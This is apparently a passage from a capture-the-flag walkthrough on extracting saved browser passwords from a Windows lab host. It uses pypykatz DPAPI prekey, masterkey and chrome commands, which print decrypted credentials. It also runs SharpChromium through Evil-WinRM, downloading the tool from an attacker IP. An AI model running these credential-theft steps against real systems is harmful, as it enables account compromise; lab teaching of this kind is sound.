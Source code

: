 - Run with the `prekey` subcommand in `pypykatz`:

```bash
root@kali$ pypykatz dpapi prekey password 'S-1-5-21-1844305427-4058123335-2739572863-2761' '!@p%i&J#iNNo1T2' | tee pkf
4ea57b2e9e19cb91226b1ce0f64e4edad3d56c82
0fcd9d392606c1dbf84c875dcfad678ca56cb607
202e6812a189277e0ccd0bc72dcfdd4ed6e9469e
```

It generates three prekeys, which I save to a file `pkf` using `tee`.

- Give the file with the prekeys to `masterkey` along with the GUID file from `Protect` to generate a file containing the master key:

```bash
root@kali$ pypykatz dpapi masterkey a8bd1009-f2ac-43ca-9266-8e029f503e11 pkf -o mkf
root@kali$ cat mkf
{
    "backupkeys": {},
    "masterkeys": {
        "a8bd1009-f2ac-43ca-9266-8e029f503e11": "930b9acfcf2f581cdb9929c1ed7e9ace387ce63f95e4f9e0c5b48e43d5c36bc8f2d84056195d9b02b681c98beafb090a2cdc51e799a22f863d3ad227746e0066"
    }
}
```

The result is a JSON file with a master key in it.

- Step 3 and step 4 are carried out with the `chrome` subcommand, giving it the location of the `Local State` and `Login Data` files, as well as the file with the master key:

```bash
root@kali$ pypykatz dpapi chrome --logindata logindata mkf localstate
file: logindata user: bob.wood@windcorp.htb pass: b'SemTro\xc2\xa432756Gff' url: http://somewhere.com/action_page.php
file: logindata user: bob.wood@windcorp.htb pass: b'SomeSecurePasswordIGuess!09' url: http://google.com/action_page.php
file: logindata user: bob.woodADM@windcorp.com pass: b'smeT-Worg-wer-m024' url: http://webmail.windcorp.com/action_page.php
```

It uses the master key to decrypt the Edge specific key in `Local State`, and that key to decrypt the three passwords in `Login Data`.

### Using SharpChromium :

[SharpChromium](https://github.com/djhohnstein/SharpChromium) is a .NET exe that will extract cookies and login data from Chrome.Download a compiled version from [SharpCollection](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpChromium.exe) and upload it to the machine, and it runs:

```powershell
*Evil-WinRM* PS C:\windows\debug\wia> iwr http://10.10.14.6/SharpChromium.exe -outfile scium.exe
*Evil-WinRM* PS C:\windows\debug\wia> .\scium.exe

Usage:
    .\SharpChromium.exe arg0 [arg1 arg2 ...]

Arguments:
    all       - Retrieve all Chromium Cookies, History and Logins.
    full      - The same as 'all'
    logins    - Retrieve all saved credentials that have non-empty passwords.
    history   - Retrieve user's history with a count of each time the URL was
                visited, along with cookies matching those items.
    cookies [domain1.com domain2.com] - Retrieve the user's cookies in JSON format.
                                        If domains are passed, then return only
                                        cookies matching those domains. Otherwise,
                                        all cookies are saved into a temp file of
```